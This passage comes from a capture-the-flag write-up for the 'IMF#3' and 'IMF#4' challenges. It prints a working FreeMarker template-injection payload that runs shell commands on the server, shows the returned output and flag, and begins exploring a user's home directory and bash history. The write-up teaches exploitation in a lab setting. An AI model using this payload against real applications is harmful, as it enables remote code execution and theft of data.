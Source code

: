 ```
We are executing it as dave, so we can try to find the flag for IMF#3 :

```
"<#assign classloader=article.class.protectionDomain.classLoader><#assign owc=classloader.loadClass(\"freemarker.template.ObjectWrapper\")><#assign dwf=owc.getField(\"DEFAULT_WRAPPER\").get(null)><#assign ec=classloader.loadClass(\"freemarker.template.utility.Execute\")>${dwf.newInstance(ec,null)(\"ls -la /home/dave/\")}"
```

```
{"issueId":"ST-5","output":"total 44\ndrwxr-x--- 1 dave dave 4096 May 13 05:19 .\ndrwxr-xr-x 1 root root 4096 May 13 03:17 ..\n-rw-r--r-- 1 dave dave  257 May 12 10:17 .bash_history\n-rw-r--r-- 1 dave dave  220 May 13 03:17 .bash_logout\n-rw-r--r-- 1 dave dave 3771 May 13 03:17 .bashrc\ndrwx------ 2 dave dave 4096 May 13 05:19 .cache\n-rw-r--r-- 1 dave dave  807 May 13 03:17 .profile\ndrwxr-xr-x 2 dave dave 4096 May 13 03:17 .ssh\n-rwx------ 1 dave dave   52 May 13 03:18 flag.txt\n-rw-r--r-- 1 dave dave  736 May 12 10:17 randomfile.txt.enc\n","error":null,"$type":"NotificationPreview"}
```

The flag is in /home/dave/flag.txt

So we can just read it with this SSTI payload :

```
"<#assign classloader=article.class.protectionDomain.classLoader><#assign owc=classloader.loadClass(\"freemarker.template.ObjectWrapper\")><#assign dwf=owc.getField(\"DEFAULT_WRAPPER\").get(null)><#assign ec=classloader.loadClass(\"freemarker.template.utility.Execute\")>${dwf.newInstance(ec,null)(\"cat /home/dave/flag.txt\")}"
```

Then we get the flag for IMF#3 :

```
{"issueId":"ST-5","output":"Hero{pl41nt3xt_p4ssw0rd_4nd_s5t1_b1t_much_41nt_1t?}\n","error":null,"$type":"NotificationPreview"}
```

# IMF#4: Put the past behind [33 solves] [454 points] [First blood 🩸]

We can just get a shell as dave from the SSTI for convenience

Then we can see there is a `randomfile.txt.enc` file
```
bash-5.1$ ls -la
total 44
drwxr-x--- 1 dave dave 4096 May 13 05:19 .
drwxr-xr-x 1 root root 4096 May 13 03:17 ..
-rw-r--r-- 1 dave dave  257 May 12 10:17 .bash_history
-rw-r--r-- 1 dave dave  220 May 13 03:17 .bash_logout
-rw-r--r-- 1 dave dave 3771 May 13 03:17 .bashrc
drwx------ 2 dave dave 4096 May 13 05:19 .cache
-rw-r--r-- 1 dave dave  807 May 13 03:17 .profile
drwxr-xr-x 2 dave dave 4096 May 13 03:17 .ssh
-rwx------ 1 dave dave   52 May 13 03:18 flag.txt
-rw-r--r-- 1 dave dave  736 May 12 10:17 randomfile.txt.enc
```

However, it is encrypted

But there is also `.bash_history`, with the size of 257, we can just read it :

```
dave@dev:~$ cat .bash_history 
whoami
ls
vim randomfile.txt
